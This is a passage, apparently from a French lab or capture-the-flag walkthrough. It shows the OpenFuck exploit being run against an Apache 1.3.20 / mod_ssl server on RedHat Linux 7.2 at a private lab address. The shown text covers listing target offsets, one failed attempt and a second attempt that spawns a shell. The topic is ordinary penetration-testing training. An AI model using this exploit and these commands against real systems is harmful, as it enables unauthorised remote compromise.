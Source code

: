 ```bash
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  
```
On dois donc ici spécifier plusieurs choses mais concentrons nous sur **target**: 

```bash
root@kali:~# ./OpenFuck | grep "1.3.20"
	0x02 - Cobalt Sun 6.0 (apache-1.3.20)
	0x27 - FreeBSD (apache-1.3.20)
	0x28 - FreeBSD (apache-1.3.20)
	0x29 - FreeBSD (apache-1.3.20+2.8.4)
	0x2a - FreeBSD (apache-1.3.20_1)
	0x3a - Mandrake Linux 7.2 (apache-1.3.20-5.1mdk)
	0x3b - Mandrake Linux 7.2 (apache-1.3.20-5.2mdk)
	0x3f - Mandrake Linux 8.1 (apache-1.3.20-3)
	0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
	0x7e - Slackware Linux 8.0 (apache-1.3.20)
	0x86 - SuSE Linux 7.3 (apache-1.3.20)
``` 
Suite à un rapide trie on trouve deux **t0arget** intéressant :

- ``0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1``
- ``0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2``

Rappelez vous du résultat de nos scan, nous sommes ici sur un Apache 1.3.20 sous RedHat Linux !

Testons avec le premier :
```bash
root@kali:~# ./OpenFuck 0x6a 192.168.122.83

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
Good Bye!
```
Rien du tout, testons avec le second :
```bash
root@kali:~# ./OpenFuck 0x6b 192.168.122.83

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
```